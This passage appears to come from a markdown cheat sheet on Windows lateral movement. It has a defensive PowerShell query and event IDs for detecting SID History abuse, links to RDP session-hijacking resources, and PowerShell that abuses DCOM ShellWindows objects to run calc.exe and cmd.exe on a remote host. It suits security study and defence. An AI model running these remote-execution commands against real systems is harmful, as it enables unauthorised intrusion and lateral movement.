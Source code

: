 - [adsecurity / sean metcalf](https://adsecurity.org/?p=1772)

```powershell
# enumerate all users with data in the SID History attribute and flag the ones with the 'Same Domain SID History'
Import-Module ActiveDirectory
[string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )
Get-ADUser -Filter “SIDHistory -Like ‘*'” -Properties SIDHistory | Where { $_.SIDHistory -Like “$DomainSID-*” }

# detection via Domain Controller Events
# requires the configuration of the sub-category auditing under Account Management,  “Audit User Account Management” (success) on DCs for :
#   4765: SID History was added to an account.
#   4766: An attempt to add SID History to an account failed.
```

## <a name='rcp'></a>rcp

🔑 KEYPOINTS :
* service-port   : 
* service-process: 
* artifacts      : 

🔑 KEYPOINTS :
## <a name='rdp'></a>rdp

🔑 KEYPOINTS :
* service-port   : 3389
* service-process: 
* artifacts      : 

**sources**
* [TA0008 - Lateral Movement](https://attack.mitre.org/tactics/TA0008/)
* [T1563  - Remote session hijacking](https://attack.mitre.org/techniques/T1563/002/)
* [Masky](https://github.com/Z4kSec/Masky) 🔥🔥🔥
* [Remote session hijacking - hackingarticles.in](https://www.hackingarticles.in/rdp-session-hijacking-with-tscon/)

## <a name='smb'></a>smb


🔑 KEYPOINTS :
* service-port   : 445
* service-process: 
* artifacts      : 


### <a name='dcom'></a>dcom

🔑 KEYPOINTS :
▶️ PLAY :
```powershell
# dcom shellwindows
ShellWindows:-
$calc = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("calc.exe")

# dcom shellbrowserwindow
$calc2 = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("cmd.exe", "/c (whoami & hostname & dir c:\) > c:\temp\test.txt", "c:\windows\system32", $null, 7)

# dcom mmc20
```